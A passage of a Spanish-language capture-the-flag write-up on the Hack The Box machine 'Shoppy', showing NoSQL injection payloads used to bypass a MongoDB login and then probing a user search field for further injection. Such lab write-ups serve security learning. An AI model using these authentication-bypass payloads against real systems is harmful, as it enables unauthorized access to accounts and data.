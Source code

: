 Pruebo una inyección ```NoSQL``` básica

```null
{"username":{"$ne":"test"},"password":{"$ne":"test"}}
```

Pero la página se queda colgada y no carga nada

```null
HTTP/1.1 504 Gateway Time-out
Server: nginx/1.23.1
Date: Tue, 27 Jun 2023 16:50:29 GMT
Content-Type: text/html
Content-Length: 569
Connection: close
```

Encuentro un [artículo](https://nullsweep.com/a-nosql-injection-primer-with-mongo/) en el que explican una NoSQL en MongoDB que permite bypassear la contraseña

```null
{"username":"admin' || 'a'=='a","password":"test"}
```

Gano acceso a una nueva interfaz

<img src="/writeups/assets/img/Shoppy-htb/3.png" alt="">

Puedo buscar por usuarios

<img src="/writeups/assets/img/Shoppy-htb/4.png" alt="">

Al introducir una comilla devuelve un código de estado 500

<img src="/writeups/assets/img/Shoppy-htb/5.png" alt="">
